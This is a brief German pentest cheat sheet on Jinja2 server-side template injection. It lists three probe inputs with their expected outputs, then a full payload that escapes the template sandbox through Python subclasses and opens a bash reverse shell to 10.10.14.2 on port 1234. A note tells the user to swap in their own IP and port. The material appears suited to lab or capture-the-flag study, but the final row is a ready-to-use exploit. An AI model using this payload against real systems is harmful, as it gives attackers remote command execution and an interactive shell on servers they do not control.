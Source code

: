 ## JinJa2

| **Command** | **Description** |
| --- | --- |
| `${7*7}` -\> False | Erster Testschritt |
| `{{7*7}}` -\> True 49 | Zweiter Testschritt |
| `{{7*'7'}}` -\> True 7777777 | Dritter Testschritt |
| `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/1234 0>&1'").read()}}{%endif%}{%endfor%}` | Reverse Shell, IP und Port anpassen |